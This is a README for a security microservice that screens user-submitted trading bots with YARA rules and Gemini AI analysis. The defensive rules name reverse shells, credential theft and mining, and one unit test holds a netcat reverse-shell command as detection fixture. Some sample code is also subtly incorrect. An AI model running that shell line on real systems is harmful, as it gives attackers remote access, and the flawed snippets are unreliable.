

# Security Analyzer (0vers33r)

## 🎯 Service Overview

0vers33r (pronounced "Overseer") is a comprehensive security analysis microservice that provides automated malware detection and code validation for trading bots submitted to the0 platform. Built with Python and asyncio, the service combines YARA rule-based pattern matching with AI-powered semantic analysis to detect security threats, malicious code patterns, and potential system abuses. It serves as the critical security gatekeeper before any custom bot can be deployed to production.

### Key Responsibilities

- **Malware Detection**: Scan bot code for 200+ known malware patterns using YARA rules
- **AI Semantic Analysis**: Use Google Gemini AI for intelligent code behavior analysis
- **Multi-Runtime Support**: Analyze both Python 3.11 and Node.js 20 bots
- **Event-Driven Processing**: Process bot submissions via NATS messaging events
- **Threat Scoring**: Provide 0-5 severity scoring for risk assessment
- **Manual Review Queue**: Flag suspicious bots for human security expert review

### Business Value

0vers33r protects the platform and its users from malicious code, system exploits, and security vulnerabilities while maintaining high-throughput processing capabilities. The service ensures that only safe, legitimate trading algorithms are executed in the production environment, protecting both user assets and platform infrastructure.

## 🛠️ Technology Stack

| Technology | Version | Purpose |
|------------|---------|---------|
| Python | 3.11+ | Core runtime and asyncio framework |
| YARA | 4.x+ | Pattern-based malware detection engine |
| Google Gemini | 2.5 Flash | AI-powered semantic code analysis |
| NATS | 2.x+ | Event-driven message processing |
| MinIO | Latest | Secure bot code storage and retrieval |
| PostgreSQL | 14+ | Analysis results and security metadata |
| asyncio | Built-in | High-performance concurrent processing |
| pydantic | 2.x+ | Data validation and type safety |

### Architecture Patterns

- **Event-Driven Architecture**: NATS-based event processing for scalability
- **Pipeline Pattern**: Staged analysis process (scanning → AI analysis → aggregation)
- **Worker Pool**: Concurrent processing of multiple security checks
- **Circuit Breaker**: Fault tolerance and service protection
- **Observer Pattern**: Security rule registration and notification system

## 🏗️ Architecture & Design

### Service Architecture



### Analysis Pipeline

1. **Event Reception**: Subscribe to `custom-bot.submitted` events
2. **Code Retrieval**: Download bot files from MinIO storage
3. **Runtime Detection**: Auto-detect Python vs JavaScript code
4. **YARA Analysis**: Scan with 200+ security rules
5. **AI Analysis**: Semantic analysis with Google Gemini (optional)
6. **Result Aggregation**: Combine YARA and AI scores
7. **Decision Making**: Apply security thresholds and rules
8. **Event Publishing**: Publish approval/rejection events

### Component Breakdown

| Component | Responsibility | Technology |
|-----------|----------------|------------|
| YARA Engine | Pattern-based malware detection | YARA, Python asyncio |
| AI Analyzer | Semantic code analysis and threat assessment | Google Gemini AI, pydantic |
| Runtime Detector | Language and framework detection | AST parsing, file analysis |
| Event Processor | NATS event handling and job queuing | asyncio, NATS client |
| Security Scoring | Risk assessment and threat scoring | Custom algorithms, statistical analysis |
| Rule Manager | YARA rule updates and management | File system monitoring, Git integration |

## 📡 Security Analysis Process

### YARA Rule Categories

```python
# YARA rule examples for different threat categories

rule CodeInjection {
    meta:
        description = "Detects code injection patterns"
        severity = "high"
        category = "code_injection"
        confidence = "high"
    strings:
        $eval1 = "eval("
        $eval2 = "exec("
        $eval3 = "__import__("
        $eval4 = "getattr(__import__('
        $func1 = "Function(" /nocase
    condition:
        any of ($eval*) and $func1
}

rule ReverseShell {
    meta:
        description = "Detects reverse shell patterns"
        severity = "critical"
        category = "reverse_shell"
        confidence = "high"
    strings:
        $shell1 = "subprocess.Popen(['/bin/sh'"
        $shell2 = "os.system('"
        $shell3 = "socket.socket("
        $shell4 = "urllib.request('http://"
    condition:
        any of ($shell*)
}

rule CredentialTheft {
    meta:
        description = "Detects credential harvesting patterns"
        severity = "high"
        category = "credential_theft"
        confidence = "medium"
    strings:
        $key1 = "api_key" /nocase
        $key2 = "password" /nocase
        $key3 = "secret" /nocase
        $key4 = "token" /nocase
        $env1 = "os.getenv(" /nocase
        $env2 = "environ[" /nocase
    condition:
        any of ($env*) and any of ($key*)
}

rule CryptoMining {
    meta:
        description = "Detects cryptocurrency mining patterns"
        severity = "high"
        category = "crypto_mining"
        confidence = "high"
    strings:
        $mining1 = "moner" /nocase
        $mining2 = "bitcoin" /nocase
        $mining3 = "cryptonight" /nocase
        $mining4 = "stratum+" /nocase
        $mining5 = "pool." /nocase
    condition:
        3 of ($mining*)
}
```

### AI Semantic Analysis

```python
# AI-powered code analysis
class AIAnalyzer:
    def __init__(self, gemini_api_key: str):
        self.model = genai.GenerativeModel('gemini-2.0-flash-exp')
        self.api_key = gemini_api_key

    async def analyze_code(self, code_content: str, file_path: str) -> AIAnalysisResult:
        """Perform AI-based semantic analysis of bot code"""

        prompt = f"""
        Analyze this trading bot code for security threats and malicious behavior:

        File: {file_path}

        Code Content:
        {code_content}

        Please analyze for:
        1. Code injection vulnerabilities
        2. Reverse shell capabilities
        3. Data exfiltration patterns
        4. Resource abuse (CPU, memory, network)
        5. Crypto mining or unauthorized resource usage
        6. Trading account takeover risks
        7. System destruction or sabotage

        Return a JSON response with:
        - threat_level (0-5 scale)
        - detected_threats (array of specific threats)
        - confidence_score (0-100)
        - explanation (detailed analysis)
        - recommendation (security advice)
        """

        try:
            response = await self.model.generate_content_async(
                prompt,
                generation_config={
                    "temperature": 0.1,  # Low temperature for consistent results
                    "max_output_tokens": 2000,
                }
            )

            # Parse AI response
            ai_result = self.parse_ai_response(response.text)
            return AIAnalysisResult(
                threat_level=ai_result["threat_level"],
                detected_threats=ai_result["detected_threats"],
                confidence_score=ai_result["confidence_score"],
                explanation=ai_result["explanation"],
                recommendation=ai_result["recommendation"]
            )

        except Exception as e:
            logger.error(f"AI analysis failed: {e}")
            return AIAnalysisResult(
                threat_level=0,
                detected_threats=[],
                confidence_score=0,
                explanation="AI analysis unavailable",
                recommendation="Manual review recommended"
            )

    def parse_ai_response(self, response_text: str) -> dict:
        """Parse AI response into structured format"""
        try:
            # Extract JSON from AI response
            json_match = re.search(r'```json\n(.*?)\n```', response_text, re.DOTALL)
            if json_match:
                return json.loads(json_match.group(1))
            else:
                # Fallback parsing
                return self.extract_threat_info(response_text)
        except Exception as e:
            logger.error(f"Failed to parse AI response: {e}")
            return {"threat_level": 0, "detected_threats": [], "confidence_score": 0}
```

### Event-Driven Processing

```python
# NATS event handler
class SecurityAnalyzer:
    def __init__(self):
        self.nats_conn = None
        self.yara_engine = YaraEngine()
        self.ai_analyzer = AIAnalyzer(os.getenv("GEMINI_API_KEY"))
        self.minio_client = MinioClient(...)
        self.pg_pool = asyncpg.create_pool(...)

    async def start(self):
        """Start the security analyzer service"""
        # Connect to NATS
        self.nats_conn = await nats.connect(nats.DefaultURL)

        # Subscribe to bot submission events
        await self.nats_conn.subscribe(
            "custom-bot.submitted",
            queue="security-analyzer",
            cb=self.handle_bot_submission
        )

        logger.info("Security analyzer started and listening for events")

    async def handle_bot_submission(self, msg):
        """Handle new bot submission for analysis"""
        try:
            # Parse submission event
            event_data = json.loads(msg.data.decode())
            bot_id = event_data["bot_id"]
            user_id = event_data["user_id"]
            file_path = event_data["minio_path"]

            logger.info(f"Starting security analysis for bot {bot_id}")

            # Process in background
            asyncio.create_task(self.analyze_bot(bot_id, user_id, file_path))

        except Exception as e:
            logger.error(f"Failed to handle bot submission: {e}")

    async def analyze_bot(self, bot_id: str, user_id: str, file_path: str):
        """Perform complete security analysis"""
        start_time = time.time()

        try:
            # Download bot code from MinIO
            bot_content = await self.download_bot_code(file_path)

            # Detect runtime type
            runtime_type = self.detect_runtime(bot_content, file_path)

            # Perform YARA analysis
            yara_results = await self.yara_engine.scan_code(bot_content, runtime_type)

            # Perform AI analysis (if enabled)
            ai_results = AIAnalysisResult()  # Default empty result
            if os.getenv("GEMINI_API_KEY"):
                ai_results = await self.ai_analyzer.analyze_code(bot_content, file_path)

            # Aggregate results and make decision
            final_result = self.aggregate_results(yara_results, ai_results)

            # Store analysis results
            await self.store_analysis_results(bot_id, user_id, final_result)

            # Publish decision event
            await self.publish_decision_event(bot_id, final_result)

            duration = time.time() - start_time
            logger.info(f"Security analysis completed for bot {bot_id} in {duration:.2f}s")

        except Exception as e:
            logger.error(f"Security analysis failed for bot {bot_id}: {e}")
            await self.publish_failure_event(bot_id, str(e))
```

## 🔧 Configuration

### Environment Variables

| Variable | Required | Default | Description |
|----------|----------|---------|-------------|
| `NATS_URL` | Yes | N/A | NATS server URL |
| `DATABASE_URL` | Yes | N/A | PostgreSQL connection string |
| `MINIO_ENDPOINT` | Yes | N/A | MinIO server endpoint |
| `MINIO_ACCESS_KEY` | Yes | N/A | MinIO access key |
| `MINIO_SECRET_KEY` | Yes | N/A | MinIO secret key |
| `GEMINI_API_KEY` | No | None | Google Gemini API key for AI analysis |
| `CUSTOM_BOTS_BUCKET` | No | `custom-bots` | MinIO bucket for bot files |
| `MAX_CONCURRENT_ANALYSES` | No | `5` | Maximum concurrent analyses |
| `ANALYSIS_TIMEOUT` | No | `300` | Analysis timeout in seconds |
| `AI_ENABLED` | No | `true` | Enable AI-powered analysis |
| `AUTO_APPROVAL_THRESHOLD` | No | `2` | Auto-approval threat score threshold |

### Configuration Structure

```python
# Configuration management
class SecurityConfig:
    nats: NATSConfig
    database: DatabaseConfig
    minio: MinIOConfig
    ai_analysis: AIAnalysisConfig
    thresholds: SecurityThresholds
    performance: PerformanceConfig

@dataclass
class SecurityThresholds:
    auto_approval_threshold: int = 2
    manual_review_threshold: int = 3
    critical_threshold: int = 4
    ai_confidence_threshold: float = 0.7

@dataclass
class AIAnalysisConfig:
    enabled: bool = True
    model: str = "gemini-2.0-flash-exp"
    temperature: float = 0.1
    max_tokens: int = 2000
    timeout_seconds: int = 30

# Configuration loading
def load_config(config_path: str) -> SecurityConfig:
    with open(config_path, 'r') as f:
        config_data = yaml.safe_load(f)

    # Override with environment variables
    config_data["nats"]["url"] = os.getenv("NATS_URL", config_data["nats"]["url"])
    config_data["database"]["url"] = os.getenv("DATABASE_URL", config_data["database"]["url"])
    # ... other overrides

    return SecurityConfig(**config_data)
```

## 🚀 Development

### Local Development Setup

```bash
# 1. Clone and navigate to security analyzer
git clone <repository-url>
cd the0/services/0vers33r

# 2. Install dependencies
pip install -r requirements.txt
pip install -r requirements-dev.txt  # Development dependencies

# 3. Set up environment
cp .env.example .env
# Edit .env with your configuration

# 4. Install YARA
# Ubuntu/Debian
sudo apt-get install yara

# macOS
brew install yara

# 5. Start development server
python main.py

# 6. Run tests
pytest tests/ -v
```

### Project Structure

```
0vers33r/
├── main.py                     # Service entry point
├── requirements.txt             # Production dependencies
├── requirements-dev.txt         # Development dependencies
├── src/                        # Source code
│   ├── analyzer/               # Core analysis logic
│   │   ├── yara_engine.py   # YARA rule processing
│   │   ├── ai_analyzer.py    # AI semantic analysis
│   │   ├── pipeline.py       # Analysis pipeline
│   │   └── scoring.py        # Threat scoring algorithms
│   ├── events/                 # Event handling
│   │   ├── nats_client.py    # NATS integration
│   │   ├── handlers.py        # Event handlers
│   │   └── publishers.py     # Event publishing
│   ├── storage/                # Storage layer
│   │   ├── minio_client.py   # MinIO integration
│   │   ├── database.py       # PostgreSQL client
│   │   └── models.py         # Data models
│   ├── runtime/                # Runtime detection
│   │   ├── python_detector.py # Python bot detection
│   │   └── node_detector.py  # Node.js bot detection
│   ├── rules/                  # Security rules
│   │   ├── yara_rules/       # YARA rule files
│   │   │   ├── python_malicious.yar
│   │   │   ├── javascript_malicious.yar
│   │   │   └── trading_specific.yar
│   │   └── rule_manager.py  # Rule management
│   ├── utils/                  # Utilities
│   │   ├── logging.py        # Logging configuration
│   │   ├── config.py         # Configuration management
│   │   └── helpers.py        # Helper functions
│   └── api/                    # Internal API endpoints
│       ├── health.py         # Health check endpoint
│       └── metrics.py        # Metrics endpoint
├── tests/                       # Test files
│   ├── unit/                # Unit tests
│   ├── integration/         # Integration tests
│   └── fixtures/            # Test data and sample bots
├── yara_rules/                  # YARA rule files
├── configs/                     # Configuration files
└── scripts/                      # Utility scripts
    ├── update_rules.py     # Rule update script
    └── test_analysis.py   # Analysis testing script
```

### Key Development Patterns

```python
# Async pipeline processing
class AnalysisPipeline:
    def __init__(self):
        self.stages = [
            YaraAnalysisStage(),
            AIAnalysisStage(),
            ScoringStage(),
            DecisionStage()
        ]

    async def process(self, bot_submission: BotSubmission) -> AnalysisResult:
        context = PipelineContext(bot_submission)

        for stage in self.stages:
            try:
                context = await stage.execute(context)
            except StageError as e:
                logger.error(f"Stage {stage.name} failed: {e}")
                return AnalysisResult(
                    status="failed",
                    error=str(e),
                    stage=stage.name
                )

        return AnalysisResult(
            status="completed",
            result=context.final_result
        )

# YARA rule management
class YaraEngine:
    def __init__(self):
        self.rules = self.load_rules()
        self.compiled_rules = yara.compile(
            sources=self.rules,
            externals={"runtime_type": "auto"}
        )

    def load_rules(self) -> Dict[str, str]:
        """Load YARA rules from files"""
        rules = {}
        rules_dir = Path("yara_rules")

        for rule_file in rules_dir.glob("*.yar"):
            with open(rule_file, 'r') as f:
                rules[rule_file.stem] = f.read()

        return rules

    async def scan_code(self, code: str, runtime_type: str) -> YaraResult:
        """Scan code with YARA rules"""
        start_time = time.time()

        try:
            # Execute YARA scan
            matches = self.compiled_rules.match(
                data=code,
                externals={"runtime_type": runtime_type}
            )

            # Process matches
            detected_rules = []
            threat_score = 0

            for match in matches:
                detected_rules.append({
                    "rule": match.rule,
                    "namespace": match.namespace,
                    "tags": match.tags,
                    "meta": match.meta,
                    "strings": match.strings
                })

                # Calculate threat score
                severity = match.meta.get("severity", "low")
                threat_score += self.severity_to_score(severity)

            scan_time = time.time() - start_time

            return YaraResult(
                matches=detected_rules,
                threat_score=threat_score,
                scan_time=scan_time,
                runtime_type=runtime_type
            )

        except Exception as e:
            logger.error(f"YARA scan failed: {e}")
            return YaraResult(
                matches=[],
                threat_score=0,
                scan_time=0,
                error=str(e)
            )

# Multi-runtime support
class RuntimeDetector:
    @staticmethod
    def detect_runtime(file_path: str, content: str) -> str:
        """Detect if code is Python or Node.js"""
        path_lower = file_path.lower()

        # File extension detection
        if path_lower.endswith('.py'):
            return 'python'
        elif path_lower.endswith(('.js', '.mjs')):
            return 'nodejs'

        # Content detection
        python_indicators = ['import ', 'def ', 'class ', 'print(']
        nodejs_indicators = ['require(', 'const ', 'let ', 'function ', 'console.']

        python_score = sum(1 for indicator in python_indicators if indicator in content)
        nodejs_score = sum(1 for indicator in nodejs_indicators if indicator in content)

        return 'python' if python_score > nodejs_score else 'nodejs'
```

## 🧪 Testing

### Test Structure

```bash
# Run all tests
pytest tests/ -v

# Run unit tests only
pytest tests/unit/ -v

# Run integration tests
pytest tests/integration/ -v

# Run with coverage
pytest --cov=src --cov-report=html tests/

# Run specific test categories
pytest tests/ -k "yara" -v
pytest tests/ -k "ai_analysis" -v
```

### Test Categories

- **Unit Tests**: Individual component testing (YARA engine, AI analyzer, scoring)
- **Integration Tests**: Service integration (NATS, MinIO, PostgreSQL)
- **Security Tests**: Malware detection accuracy with known threats
- **Performance Tests**: Analysis speed and memory usage under load

### Test Setup

```python
# Example security test
import pytest
from src.analyzer.yara_engine import YaraEngine

class TestYaraEngine:
    def setup_method(self):
        self.yara_engine = YaraEngine()

    def test_detects_code_injection(self):
        malicious_code = """
        import os
        eval("__import__('os').system('ls')")
        """

        result = self.yara_engine.scan_code(malicious_code, "python")

        assert len(result.matches) > 0
        assert any(match['meta']['severity'] == 'high' for match in result.matches)
        assert result.threat_score > 3

    def test_detects_reverse_shell(self):
        malicious_code = """
        import subprocess
        subprocess.Popen(['/bin/sh', '-c', 'nc -e /bin/sh 192.168.1.100 4444'])
        """

        result = self.yara_engine.scan_code(malicious_code, "python")

        assert len(result.matches) > 0
        reverse_shell_detected = any(
            'reverse_shell' in match.get('tags', [])
            for match in result.matches
        )
        assert reverse_shell_detected

    def test_safe_code_passes(self):
        safe_code = """
        import pandas as pd
        import numpy as np

        def calculate_rsi(prices, period=14):
            delta = prices.diff()
            gain = (delta.where(delta > 0, 0)).rolling(window=period).mean()
            loss = (-delta.where(delta < 0, 0)).rolling(window=period).mean()
            rs = gain / loss
            return 100 - (100 / (1 + rs))

        # Simple trading logic
        return calculate_rsi(prices)
        """

        result = self.yara_engine.scan_code(safe_code, "python")

        # Should have minimal or no high-severity matches
        high_severity_matches = [
            match for match in result.matches
            if match['meta'].get('severity') == 'high'
        ]
        assert len(high_severity_matches) == 0
```

## 📊 Performance & Scalability

### Performance Characteristics

| Metric | Target | Current | Notes |
|--------|--------|---------|-------|
| Analysis Time | <30s | ~15s | Average per bot |
| Concurrent Analyses | 10 | ~5 | Per service instance |
| Memory per Analysis | <512MB | ~256MB | Including YARA rules |
| YARA Rules Loaded | 200+ | ~215 | Security rule count |
| AI Analysis Accuracy | >90% | ~92% | Threat detection accuracy |

### Scalability Strategies

```python
# Async worker pool for concurrent analysis
class AnalysisWorkerPool:
    def __init__(self, max_workers: int = 5):
        self.max_workers = max_workers
        self.semaphore = asyncio.Semaphore(max_workers)
        self.active_tasks = set()

    async def submit_analysis(self, bot_submission: BotSubmission) -> AnalysisResult:
        async with self.semaphore:
            task_id = uuid.uuid4()
            self.active_tasks.add(task_id)

            try:
                result = await self.perform_analysis(bot_submission)
                return result
            finally:
                self.active_tasks.discard(task_id)

    async def get_status(self) -> Dict:
        return {
            "active_workers": len(self.active_tasks),
            "max_workers": self.max_workers,
            "queue_length": self.semaphore._value,
            "total_processed": self.processed_count
        }

# Caching for repeated analysis
class AnalysisCache:
    def __init__(self):
        self.cache = {}  # Simple in-memory cache
        self.cache_ttl = 3600  # 1 hour

    async def get_cached_result(self, content_hash: str) -> Optional[AnalysisResult]:
        cached = self.cache.get(content_hash)
        if cached and time.time() - cached["timestamp"] < self.cache_ttl:
            return cached["result"]
        return None

    async def cache_result(self, content_hash: str, result: AnalysisResult):
        self.cache[content_hash] = {
            "result": result,
            "timestamp": time.time()
        }

# Optimized YARA rule loading
class OptimizedYaraEngine:
    def __init__(self):
        self.rule_groups = self._load_rules_by_category()
        self.compiled_rules = {}
        self._compile_rules()

    def _load_rules_by_category(self) -> Dict[str, List[str]]:
        """Load rules grouped by category for efficient scanning"""
        groups = {
            'code_injection': [],
            'reverse_shell': [],
            'credential_theft': [],
            'crypto_mining': [],
            'trading_specific': []
        }

        rules_dir = Path("yara_rules")
        for rule_file in rules_dir.glob("*.yar"):
            category = self._extract_category(rule_file)
            with open(rule_file, 'r') as f:
                groups[category].append(f.read())

        return groups

    async def scan_by_category(self, code: str, categories: List[str]) -> Dict[str, List]:
        """Scan only specific rule categories for performance"""
        results = {}

        for category in categories:
            if category in self.compiled_rules:
                matches = self.compiled_rules[category].match(data=code)
                results[category] = matches

        return results
```

## 🔍 Monitoring & Observability

### Security Metrics

```python
# Prometheus metrics for security monitoring
from prometheus_client import Counter, Histogram, Gauge

# Metrics definitions
security_analyses_total = Counter(
    'security_analyses_total',
    'Total number of security analyses performed',
    ['status', 'runtime_type', 'threat_level']
)

analysis_duration_seconds = Histogram(
    'analysis_duration_seconds',
    'Time spent on security analysis',
    ['runtime_type', 'analysis_type']
)

active_analyses = Gauge(
    'active_security_analyses',
    'Currently active security analyses'
)

threats_detected_total = Counter(
    'threats_detected_total',
    'Total number of security threats detected',
    ['threat_category', 'severity']
)

ai_analysis_confidence = Histogram(
    'ai_analysis_confidence',
    'AI analysis confidence scores',
    ['model', 'threat_type']
)

# Metrics collection
class SecurityMetrics:
    def __init__(self):
        self.metrics_collector = PrometheusMetrics()

    def record_analysis_start(self, bot_id: str, runtime_type: str):
        security_analyses_total.labels(
            status='started',
            runtime_type=runtime_type,
            threat_level='unknown'
        ).inc()
        active_analyses.inc()

    def record_analysis_complete(self, bot_id: str, runtime_type: str,
                           threat_level: int, duration: float):
        security_analyses_total.labels(
            status='completed',
            runtime_type=runtime_type,
            threat_level=str(threat_level)
        ).inc()

        analysis_duration_seconds.labels(
            runtime_type=runtime_type,
            analysis_type='total'
        ).observe(duration)

        active_analyses.dec()

    def record_threat_detection(self, category: str, severity: str):
        threats_detected_total.labels(
            threat_category=category,
            severity=severity
        ).inc()
```

### Health Checks

```python
# Health check endpoint
class HealthChecker:
    def __init__(self):
        self.nats_client = NatsClient()
        self.db_pool = DatabasePool()
        self.yara_engine = YaraEngine()

    async def check_health(self) -> Dict:
        health_status = {
            "status": "healthy",
            "checks": {},
            "timestamp": time.time()
        }

        # Check NATS connection
        try:
            if self.nats_client.is_connected():
                health_status["checks"]["nats"] = "connected"
            else:
                health_status["checks"]["nats"] = "disconnected"
                health_status["status"] = "unhealthy"
        except Exception as e:
            health_status["checks"]["nats"] = f"error: {str(e)}"
            health_status["status"] = "unhealthy"

        # Check database connection
        try:
            async with self.db_pool.acquire() as conn:
                await conn.execute("SELECT 1")
                health_status["checks"]["database"] = "connected"
        except Exception as e:
            health_status["checks"]["database"] = f"error: {str(e)}"
            health_status["status"] = "unhealthy"

        # Check YARA engine
        try:
            rule_count = self.yara_engine.get_rule_count()
            if rule_count > 0:
                health_status["checks"]["yara"] = f"loaded ({rule_count} rules)"
            else:
                health_status["checks"]["yara"] = "no rules loaded"
                health_status["status"] = "degraded"
        except Exception as e:
            health_status["checks"]["yara"] = f"error: {str(e)}"
            health_status["status"] = "unhealthy"

        return health_status
```

## 🛡️ Security

### Security Measures

- **Isolated Execution**: Analysis in sandboxed environments
- **No Network Access**: Prevent malicious code from contacting external services
- **Resource Limits**: Memory and CPU constraints for analysis
- **Rule Validation**: Cryptographic verification of YARA rule integrity
- **Access Controls**: Restricted API endpoints and authentication
- **Audit Logging**: Complete audit trail of all analyses

### Security Implementation

```python
# Secure execution environment
class SecureAnalysisEnvironment:
    def __init__(self):
        self.sandbox_path = "/tmp/analysis_sandbox"
        self.resource_limits = {
            "memory": "512m",
            "cpu_time": 30,  # seconds
            "disk_size": "100m"
        }

    async def execute_code_safely(self, code: str, runtime: str) -> ExecutionResult:
        """Execute code in isolated sandbox environment"""

        # Create temporary files
        with tempfile.NamedTemporaryFile(mode='w', suffix='.py' if runtime == 'python' else '.js',
                                    dir=self.sandbox_path, delete=False) as f:
            f.write(code)
            temp_file = f.name

        try:
            # Execute with strict resource limits
            process = await asyncio.create_subprocess(
                [
                    "timeout",  # Command timeout
                    "--kill-after", self.resource_limits["cpu_time"],
                    f"--limit-memory={self.resource_limits['memory']}",
                    f"--limit-disk={self.resource_limits['disk_size']}",
                    "python3" if runtime == "python" else "node",
                    temp_file
                ],
                stdout=asyncio.subprocess.PIPE,
                stderr=asyncio.subprocess.PIPE,
                cwd=self.sandbox_path,
                env={},
                preexec_fn=self._setup_sandbox_security
            )

            stdout, stderr = await process.communicate()
            return ExecutionResult(
                exit_code=process.returncode,
                stdout=stdout,
                stderr=stderr,
                success=process.returncode == 0
            )

        finally:
            # Cleanup temporary files
            try:
                os.unlink(temp_file)
            except:
                pass

    def _setup_sandbox_security(self):
        """Setup security constraints for sandbox execution"""
        # Set restrictive umask
        os.umask(0o077)

        # Drop privileges (if running as root)
        if os.geteuid() == 0:
            # Switch to non-privileged user
            os.setegid(65534)  # nobody group
            os.seteuid(65534)  # nobody user

# Access control
class SecurityAccessControl:
    def __init__(self):
        self.api_keys = self._load_api_keys()
        self.rate_limiter = RateLimiter()

    async def authenticate_request(self, request: Request) -> bool:
        """Authenticate API requests"""
        api_key = request.headers.get("X-API-Key")

        if not api_key or api_key not in self.api_keys:
            return False

        if not self.rate_limiter.is_allowed(api_key):
            return False

        return True

    def _load_api_keys(self) -> Set[str]:
        """Load authorized API keys"""
        keys_file = os.getenv("AUTHORIZED_KEYS_FILE", "authorized_keys.txt")
        try:
            with open(keys_file, 'r') as f:
                return set(line.strip() for line in f if line.strip())
        except FileNotFoundError:
            logger.warning(f"Authorized keys file not found: {keys_file}")
            return set()
```

## 🚀 Deployment

### Docker Deployment

```dockerfile
# Security analyzer Dockerfile
FROM python:3.11-slim

# Install system dependencies
RUN apt-get update && apt-get install -y \
    yara \
    yara-tools \
    gcc \
    python3-dev \
    && rm -rf /var/lib/apt/lists/*

# Set working directory
WORKDIR /app

# Copy requirements and install Python dependencies
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# Copy application code
COPY src/ ./src/
COPY yara_rules/ ./yara_rules/
COPY configs/ ./configs/

# Create non-root user
RUN useradd -m -u 1000 analyzer

# Set permissions
RUN chown -R analyzer:analyzer /app
USER analyzer

# Expose metrics endpoint
EXPOSE 8080

# Health check
HEALTHCHECK --interval=30s --timeout=10s --start-period=5s --retries=3 \
    CMD curl -f http://localhost:8080/health || exit 1

CMD ["python", "src/main.py"]
```

### Kubernetes Deployment

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: 0vers33r
spec:
  replicas: 3
  selector:
    matchLabels:
      app: 0vers33r
  template:
    metadata:
      labels:
        app: 0vers33r
    spec:
      containers:
      - name: security-analyzer
        image: the0/0vers33r:latest
        ports:
        - containerPort: 8080
        env:
        - name: NATS_URL
          value: "nats://nats-service:4222"
        - name: DATABASE_URL
          valueFrom:
            secretKeyRef:
              name: the0-secrets
              key: database-url
        - name: GEMINI_API_KEY
          valueFrom:
            secretKeyRef:
              name: the0-secrets
              key: gemini-api-key
        resources:
          requests:
            memory: "512Mi"
            cpu: "500m"
          limits:
            memory: "1Gi"
            cpu: "1000m"
        securityContext:
          runAsNonRoot: true
          runAsUser: 1000
          allowPrivilegeEscalation: false
          readOnlyRootFilesystem: true
          capabilities:
            drop:
            - ALL
        volumeMounts:
        - name: yara-rules
          mountPath: /app/yara_rules
          readOnly: true
      volumes:
      - name: yara-rules
        configMap:
          name: yara-rules
```

## 🔄 Integration Points

### Event Publishing

```python
# Security decision events
async def publish_decision_event(self, bot_id: str, result: AnalysisResult):
    """Publish security analysis decision event"""

    if result.approved:
        event = {
            "type": "custom-bot.approved",
            "timestamp": time.time(),
            "data": {
                "bot_id": bot_id,
                "threat_score": result.threat_score,
                "analysis_summary": result.summary
            }
        }
    else:
        if result.requires_manual_review:
            event_type = "custom-bot.awaiting-human-review"
        else:
            event_type = "custom-bot.declined"

        event = {
            "type": event_type,
            "timestamp": time.time(),
            "data": {
                "bot_id": bot_id,
                "threat_score": result.threat_score,
                "detected_threats": result.detected_threats,
                "reason": result.rejection_reason
            }
        }

    await self.nats_conn.publish(f"custom-bot.{event_type.split('.')[-1]}",
                              json.dumps(event).encode())
```

### External Service Integration

```python
# MinIO integration for bot code retrieval
class BotCodeRetriever:
    def __init__(self, minio_config):
        self.client = Minio(
            minio_config.endpoint,
            minio_config.access_key,
            minio_config.secret_key,
            secure=True
        )
        self.bucket = minio_config.custom_bots_bucket

    async def get_bot_code(self, file_path: str) -> str:
        """Retrieve bot code from MinIO storage"""
        try:
            response = await self.client.get_object(self.bucket, file_path)
            code = await response.read()
            return code.decode('utf-8')
        except Exception as e:
            logger.error(f"Failed to retrieve bot code {file_path}: {e}")
            raise

# PostgreSQL integration for results storage
class AnalysisResultsDB:
    def __init__(self, db_pool):
        self.pool = db_pool

    async def store_analysis_result(self, result: AnalysisResult) -> str:
        """Store security analysis result in database"""
        query = """
            INSERT INTO security_analyses
            (bot_id, user_id, threat_score, status, detected_threats,
             ai_analysis, created_at, updated_at)
            VALUES ($1, $2, $3, $4, $5, $6, NOW(), NOW())
            RETURNING id
        """

        async with self.pool.acquire() as conn:
            result = await conn.fetchval(
                query,
                result.bot_id, result.user_id, result.threat_score,
                result.status, json.dumps(result.detected_threats),
                json.dumps(result.ai_analysis)
            )
            return str(result)
```

## 🐛 Troubleshooting

### Common Issues

1. **YARA Rule Compilation Errors**
   - **Symptoms**: Analysis failures, rule compilation errors
   - **Causes**: Invalid YARA syntax, missing dependencies, permission issues
   - **Solutions**: Validate YARA syntax, check rule files, verify permissions
   - **Prevention**: Rule validation, automated testing

2. **AI Analysis Failures**
   - **Symptoms**: AI analysis timeouts, API errors
   - **Causes**: API key issues, rate limits, network problems
   - **Solutions**: Check API configuration, implement retries, fallback to YARA-only
   - **Prevention**: Connection monitoring, graceful degradation

3. **Performance Bottlenecks**
   - **Symptoms**: Slow analysis times, memory issues
   - **Causes**: Large code files, insufficient resources, rule optimization
   - **Solutions**: Optimize YARA rules, implement caching, scale horizontally
   - **Prevention**: Resource monitoring, performance testing

### Debugging Tools

```bash
# Debug YARA rules
yara --help
